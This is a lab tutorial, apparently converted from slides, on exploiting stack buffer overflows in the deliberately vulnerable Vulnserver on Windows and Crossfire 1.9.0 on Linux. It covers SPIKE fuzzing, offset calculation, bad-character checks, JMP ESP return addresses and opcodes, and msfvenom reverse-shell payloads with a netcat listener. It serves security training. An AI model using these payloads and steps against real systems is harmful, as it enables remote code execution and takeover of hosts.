


BUFFER OVERFLOW
IN WINDOWS
The goal of this text is to explain
how to complete a buffer overflow (BoF) attack by
building a PoC in python and using it to figure out the final BoF that let us exploit the vulnerable application.
2 Great article
explaining the process and how to use SPIKE:
�
How spike
works: https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
�
How to
automatise the process: https://resources.infosecinstitute.com/topic/fuzzer-automation-with-spike/
�
Good
explanation: https://hex-men.tech/vulnserver_buffer_overflow/
Here I'm
going to explain the process to follow, but mainly the concepts we need to
understand to complete a BoF attack.
I created the script
ExploitServerEIP.py that contains many of the required steps to be executed
from the client. Each part is commented ('''), so in order to run the phase 1
for example, we need to remove the ''' at the beginning and the end of the
section and keep the comments for the remaining phases.
We need a Kali Linux / any Linux
used to run the scripts and to get the reverse shell once we have completed the
attack
We need a Windows system including
the Vulnserver (http://sites.google.com/site/lupingreycorner/vulnserver.zip)
and the Immunity debugger installed (https://www.immunityinc.com/products/debugger/)
Process
�
Start the
service / application you want to test in the server (windows). In this case we
are working with vulnserver.exe that runs in port 9999
�
Start the
immunity debugger in the server and attach the vulnserver.exe application (File
/ Attach and select the vulnserver.exe process). Sometimes it is required to
hit F9 to continue runnning
the process as normally it paused the execution. In the right-down corner the
debugger shows the process status (Running / Pause)
�
In the
client (Kali), start Wireshark to capture the traffic to understand how the
information is send / received
�
Start a
connection to the server and run some commands to understand how it works:
nc -nv [IPWINDOWS] 9999
#In the answer the server indicates the use of HELP to
get additional info.
#There are many commands we can execute HELP, STATS,
RTIME, LTIME, �
�
Create a
SPIKE script to send the commands with fuzzed data. It is simple as if we
understand what information should be sent always and what we can manipulate,
the resulting script is like this:
printf("HELP 0help.spk
: "); //print to terminal command and filename
s_readline(); //print received line from server
s_string("HELP "); // send
"HELP " command to the program. Requires a space as the fuzz
will go after it
s_string_variable("INJECTION_POINT");
//send fuzzed string. At the end, the resulting string sent to the server is
HELP INJECTION_POINT
#Create a spk file for each commands supported by the server: STATS, RTIME, etc. Assign
a sequence number to the filename so when it is restarted, it could continue
from the last tested and not from the beginning.
#For each command wanted to be tested a separate SPIKE
script is required. If there are multiple fields in the same page or call to
the server, then they can be tested in one script. But different values in the
same field / command requires a script for each one.
�
Run the
SPIKE script to look for overflows:
generic_send_tcp [ip] [port] [script.spk] 0 0
Spike send a predeterminate list of strings each time
replacing the string variable "INJECTION_POINT" by predetermined
injection chars already preconfigured in spike by default. The 0 indicates
where to start from the predetermined file and where to stop. To run all by
default use 0 0
Check how the server goes in the debugger to identify any
issue / crash
Continue playing with the scripts.
You can create a shell / wrapper file to call the generic_send_tcp with each script. This shell should
identify when the server stops working.
�
I used a perl script called fuzzingall.pl copied from the article
but it can be a .sh file
�
Run it:
./fuzzingall.pl [ip] [port] 0 0 0
�
To start in
any specific (6):� ./fuzzingall.pl [ip] [port] 6 0 0
�
Identify
what is causing the crash
Check the network capture and the scripts to validate
what input caused the server to crash. Restart the server and run the specific
call with the string that caused the BOF.
I created a python file with all the phases we need to
run (ExploirServerEIP.py). In this case, use the phase 1 to test this part.
Based on the identification of the command causing the
crash, try to use the content into the python script part 1 to validate it is
the right one. If putting the same information the server crash, then try to
identify the approximate length causing the crash with the script part 2.
The
most important part to have in mind is to identify if the crash give us a way to manipulate the memory registers. If so,
this means we can inject a shellcode and make the program to go to the place
in memory where the shellcode is to exploit the server.
We need to identify what information is stored in each
register at the crash moment to see how can we
manipulate the string we sent. This will let us build the exploit in the right
way.
�
Identify the
offset
Identify the exact size of the buffer� where the program crashes by creating an special string with metasploit
framework pattern_create (locate pattern_create).
In my case I had to run it in this way:
/opt/metasploit-framework/embedded/bin/ruby
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l
5000
In
other Kali: msf-pattern_create -l [LENGHT]
msf-pattern_create
-l [LENGTH]
#This can also be generated using mona.py in Immunity
Debugger but I will not show here the details.
#Phase 3 of the python script help us to identify this
task.
Restart the vulnserver in
windows from the debugger (ctrl-F2) and run the python
script Phase 2 using the pattern we got. Once the server crash, check the value
in the registers (right side in immunity), specially the EIP value. In this
case it is 386F4337
Calculate the offset for this EIP value using
/opt/metasploit-framework/embedded/bin/ruby
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -l
[length] -q 386F4337
In
oother kali: msf-pattern_offset
-l [length] -q 386F4337
=> [*] Exact match at offset 2003
Confirm the EIP can be manipulated by us:
Using the Part 3 of the python we can select the value
we want to left in the EIP based on the identified
offset. Run the script and validate we have control of the EIP.
�
�
Identify
"bad characters" not accepted by the application.
Part 4 of the script checks if the application has
some "bad characters".
After running the exploit, observe the ESP value
(right pane) and the stack (right down) to validate all the "badchars" sent were included. They should be observed
as a sequence (04030201 �). We can also observe the details in the down-left
side by right-clicking the ESP or stack and selecting follow in dump to see it
better. If there are some bad chars, then the hexa
value will not be showed in the sequence. We need to remove it from the badchars string and run it again. In this way we can
identify and remove all bad chars.

�
Detect the
right address to use in the EIP
In this specific case, we observed that the we can left anything we want into the ESP. So we can
create a reverse shell string and replace the badchar
string by this value. This part will be completed in the next part.
Now that we have where to left
the shellcode, we need to instruct the program to go to that place (ESP). So
now we need to send the instruction JMP ESP to the program. How? As we can
manipulate the EIP, we need to look where we can find a JMP ESP instruction and
point the EIP to that address.
We will use mona.py in Immunity Debugger to complete
this part.
To detect� if
there are unprotected modules we can use to get an address with this operation
we need to use mona.py. It works with Inmmunity
Debugger and WinDBG (https://github.com/corelan/mona).
Download and copy the file into Immunity Debugger\PyCommands
For Ghidra x64dbg is more complicated: https://github.com/x64dbg/mona
More details about mona: https://www.corelan-training.com/
To run mona, in Immunity Debugger run the command in
the textbox in the downside of the debugger. Just write:
!mona modules��
#In this case essfunc.dll is found
# Identify which modules have less protections active
from the process running.
# To know the op codefor
JUMP ESP we can use msf-nasm_shell. Run it and put
JMP ESP to identify the op code
�msf-nasm_shell
>JMP ESP
In other Kali is: /opt/metasploit-framework/embedded/bin/ruby
/opt/metasploit-framework/embedded/framework/tools/exploit/nasm_shell.rb
We got "FFE4"
# Now we need to look for the instruction JMP ESP
("\xff\xe4") in
the memory for any of these unprotected modules
!mona find -s "\xff\xe4" -m "essfunc.dll" => -s� is the byte string to search for, -m� specifies the module to search in
#9 occurrences were found.

625011AF�� FFE4����
��������JMP ESP
In this case, we need to put this address (625011AF)
in the EIP so the program will go to it and run JMP ESP and then it will start
running the shellcode we have there!
�
Generate and
run the shellcode
In a terminal window in Linux run the listener to
receive the reverse shell:
nc -nvpl 443
Now let's prepare the shell.
This shellcode should not contain bad chars (if we found any)
Using msvenom in Linux, we
can create it without the previously identified badchars.
At least \x00 (null) should be included. -f specifies
the language (c, py, pl, �)
The EXITFUNC=Thread is used to avoid the program to
terminate when we finish the shell. This will close only the thread used by the
shell.
�msfvenom -p windows/shell_reverse_tcp LHOST=[IP KALI] LPORT=443 EXITFUNC=
thread -f py -e x86/shikata_ga_nai -b "\x00"
Now we have all the pieces we need:
�
Offset (2003
in this case)
�
Address we
want to overwrite in the EIP (observe we need to include it in little indian notation for x86: "\xaf\x11\x50\x62"
�
the pattern
string (shellcode) we want to inject and run.
Run the python script Part 5 to inject the shellcode.
We need to add some nops
before the shell as sometimes the execution of the shell modifies some parts
that could affect it. Sometimes 10 or 12 or 16 could be ok, but it is something
to play with if the shell did not start.
To be sure the shell is loaded in the ESP, we can
create a breakpoint in the address where the JMP ESP is located (625011AF) so
the program will pause in that point. We can observe the ESP value and the
memory to validate the shellcode is there and it is complete.

After running it we got the shell �..

BUFFER OVERFLOW
IN LINUX
We will use Crossfire 1.9.0 as it is
vulnerable. It has a network-based BoF when strings
of more than 4000 bytes in the setup sound command
We will use the Evans Debugger
(EDB) (Not in Raspberry PI as this is for x86)
Memory protection techniques in
Linux: Data Execution Prevention (DEP), Address Space Layout Randomization
(ASLR), and Stack Canaries. To avoid them, we need to use a Crossfire compiled
without stack-smashing protection (stack canaries), ASLR, and DEP.
To crash the app we can use a
payload like:
crash = "\x41" *
4379
buffer = "\x11(setup sound
" + crash + "\x90\x00#"
To identify that payload, we should
follow the same process to create the spike scripts and start playing with them
to identify where the app is vulnerable.
Testing the
crash:
The process is almost the same than in Windows but
using edb debugger instead of immunity in this case.
In the python script the test 6 is used to validate
the application crashes when receiving this information.
After crashing the application, we should observe the
register values to identify how can we continue the exploit.
In this case we can observe:
�
ESP points
to the last part of the string we sent (position 4363 to 4369). This left only
7 bytes to use. The shell code cannot be injected there
�
However, we
can observe the EAX contains the memory position where the buffer we have sent
starts: ("setup sound
AAAAAAA�.").
Analysing this data, we can see there are 12 bytes (including the
space) before the part we have control of (buffer) and
we have control over the EAX.
What we need to do in this case is:
�
Use the 7
bytes we have control of that are pointed by ESP (position 4363 to 4369) to
inject something that let us go to EAX + 12
�
This can be
done by injecting ADD EAX,12 and JMP EAX in the last 7 bytes.
To get the opcodes for this
operations we can use msf-nasm_shell:
msf-nasm_shell
>add eax,12���� =>�
83C00C�� add eax,byte +0xc
> jmp eax��������� => FFE0������� jmp eax
This is "\x83\xc0\x0c\xff\xe0". It uses only 5 bytes from the 7 available so we
can add 2 nops at the end.
We need to inject this opcodes
in the part where the ESP is pointing to.
Testing the
ESP value
In the python script 7 I created a PoC to validate we
can control ESP and AIX as analysed.
After running we can observe EAX (already in control
in test 6) and ESP are controlled by us and we
injected the desired values.
Checking badchars
Before completing the shellcode, it is important to
check badchars in the same way than in windows. By
sending all the possible chars and observing the stack to validate the
information is received in a good way. If someone is missing, remove it and
test it again until we have all the possible values sent in the stack without
problem.
The test 8 includes this part. Including the buffer
fulfilling with A's. That's important as we should
maintain the same buffer size to keep the registers with the values we want.
Finding the
return address and Injecting the Shellcode
�So the last
part is to control the EIP. We need it to point to an address with the
instruction JMP ESP
EDB debugger comes with the a
plugging called Opcodesearcher (Pluggins
-> OpcodeSearch or ctrl+o)
Looking for jump equivalent ESP -> EIP and
selecting any of the process we can find one at address 08134596 (\x96\x45\x13\x08 in little indian)
eip = b"\x96\x45\x13\x08"
Now we need to create the reverse shell for linux (-f to define language python in this case, -v name
of the variable to assign the shellcode, -b list of badchars)
�msfvenom -p linux/x86/shell_reverse_tcp
LHOST=[KALI_IP] LPORT=443 -b "\x00\x20" -f py -v shellcode
In the python script 9 is used to complete this test